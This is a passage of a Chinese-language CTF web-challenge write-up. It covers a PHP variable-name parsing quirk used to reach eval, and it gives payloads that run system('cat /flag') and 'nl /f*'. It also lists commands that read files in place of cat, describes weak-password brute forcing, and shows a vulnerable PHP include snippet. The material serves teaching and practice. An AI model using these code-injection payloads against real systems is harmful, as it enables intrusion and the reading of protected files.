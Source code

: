在post传参时，变量名里的点和空格是非法字符，会被转化为`_`

这里有一个漏洞，如果变量有`[`，它会被转换成`_`,但中括号后面的非法字符就不会被转变

我们传的变量名是`e[v.a.l`

payload：`password=114514&e[v.a.l=eval($_POST[1]);&1=system('cat /flag');`

其他姿势：`password=114514&e[v.a.l=echo `nl /f* `;`

搜集了一些与cat命令差不多的命令

```
more:一页一页的显示档案内容
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
sort:可以查看
uniq:可以查看
strings:可以查看
rev:反过来看
```

### EasyLogin

就是一个弱口令爆破，它的密码会进行md5加密

![image-20231019173854276](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019173854276.png)

在爆破的时候，设置一下

![image-20231019174042511](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019174042511.png)

![image-20231019174238726](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019174238726.png)

![image-20231019174527979](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231019174527979.png)

## Week2

### include 0。0

```php
 <?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?>
```
